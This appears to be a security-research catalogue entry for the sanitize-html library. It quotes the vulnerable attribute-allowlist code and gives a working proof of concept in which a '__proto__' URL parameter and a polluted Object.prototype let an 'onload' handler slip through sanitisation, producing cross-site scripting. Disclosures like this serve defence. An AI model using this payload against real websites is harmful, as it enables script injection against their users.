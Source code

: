## sanitize-html

URL: https://github.com/apostrophecms/sanitize-html

### JS Fingerprint
```
return (typeof sanitizeHtml !== 'undefined')
```

### Vulnerable code fragment
https://github.com/apostrophecms/sanitize-html/blob/d78ee44069b3a3bb70aca3289de63b7acbffd4f2/index.js#L275-L280
```js
          if (!allowedAttributesMap ||
            (has(allowedAttributesMap, name) && allowedAttributesMap[name].indexOf(a) !== -1) ||
            (allowedAttributesMap['*'] && allowedAttributesMap['*'].indexOf(a) !== -1) ||
            (has(allowedAttributesGlobMap, name) && allowedAttributesGlobMap[name].test(a)) ||
            (allowedAttributesGlobMap['*'] && allowedAttributesGlobMap['*'].test(a))) {
            passedAllowedAttributesMapCheck = true;
```

### PoC

```
?__proto__[*][]=onload
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
<script>
  Object.prototype['*'] = ['onload']
</script>
<script>
  document.write(sanitizeHtml('<iframe onload=alert(1)>'))
</script>
```